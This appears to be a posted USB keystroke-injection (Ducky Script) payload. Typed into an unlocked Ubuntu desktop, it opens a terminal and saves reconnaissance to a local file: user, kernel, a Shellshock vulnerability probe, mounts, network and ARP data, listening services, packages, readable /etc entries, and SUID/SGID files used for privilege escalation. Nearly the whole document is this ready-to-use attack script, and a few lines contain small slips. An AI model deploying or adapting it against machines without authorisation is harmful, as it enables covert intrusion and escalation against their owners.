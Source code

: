 The following script is an information gatherer script which collects info from a running Ubuntu OS and saves it to a file named "info_gathering.txt". 
The info that the script retrieves is the logged in username, the distribution and kernel version of the running system, the applicability of the shellsock bug, the mounted filesystems, information which is related to the Network adapters, availability of development tools (python, g++), contents of the hosts file and the listening TCP/UDP connections. Apart from that it attempts to find readable folders inside the /etc folder and also prints the SUID and GUID files.

    REM Info gathering Ubuntu 1.0 Script issues OS info gathering commands in terminal - by Captain_Harlock
    DELAY 3000
    ALT F2
    DELAY 300
    STRING gnome-terminal
    DELAY 100
    ENTER
    DELAY 200
    STRING clear
    DELAY 10
    ENTER
    DELAY 50
    STRING echo "Logged in user:" $USER > info_gathering.txt
    ENTER
    DELAY 50
    STRING echo >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    STRING echo -n "Distribution Kernel Version:" >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 50
    STRING cat /etc/issue | cut -c1-13 >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 50
    STRING echo -n "uname results: " >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 50
    STRING uname -a >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 50
    DELAY 50
    STRING echo >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 50
    STRING echo "Shellsock Bug Vulnerability" >> info_gathering.txt
    DELAY 50
    ENTER
    STRING echo >> info_gathering.txt
    ENTER 
    DELAY 50
    STRING env x='() { :;}; echo vulnerable' bash -c `echo hello` >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    DELAY 50
    ENTER 
    DELAY 50
    STRING echo >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    STRING echo "Mounted filesystems" >> info_gathering.txt
    ENTER 
    DELAY 50
    STRING mount -l >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 100
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50 
    STRING echo "Network Configuration" >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 50
    STRING ifconfig -a | grep 'Link\|inet' >> info_gathering.txt
    ENTER
    DELAY 50
    STRING 
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Print Hosts" >> info_gathering.txt
    ENTER
    DELAY 50
    STRING cat /etc/hosts >> info_gathering.txt
    ENTER
    DELAY 50
    STRING 
    STRING echo echo "Print ARP" >> info_gathering.txt
    ENTER
    DELAY 50 
    STRING arp >> info_gathering.txt
    ENTER
    DELAY 50 
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Development tools availability" >> info_gathering.txt
    ENTER
    DELAY 50
    STRING which gcc >> info_gathering.txt
    ENTER
    DELAY 50
    STRING which g++ >> info_gathering.txt
    ENTER
    DELAY 50
    STRING which python >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Print TCP/UDP Listening Services" >> info_gathering.txt
    ENTER
    DELAY 50
    STRING netstat -tunlpe >> info_gathering.txt
    ENTER
    DELAY 300
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Installed Packages" >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 200
    STRING dpkg -l >> info_gathering.txt
    ENTER
    DELAY 300
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Find Readable Folders in /etc" >> info_gathering.txt
    ENTER
    DELAY 50
    STRING find /etc -user `id -u` -perm -u=r -o -group `id -g` -perm -g=r -o -perm -o=r -ls 2> /dev/null >> info_gathering.txt
    ENTER
    DELAY 500
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Find SUID and GUID files" >> info_gathering.txt
    ENTER
    DELAY 50
    STRING find / -type f -perm -u=s -o -type f -perm -g=s -ls  2> /dev/null >> info_gathering.txt
    DELAY 50
    ENTER
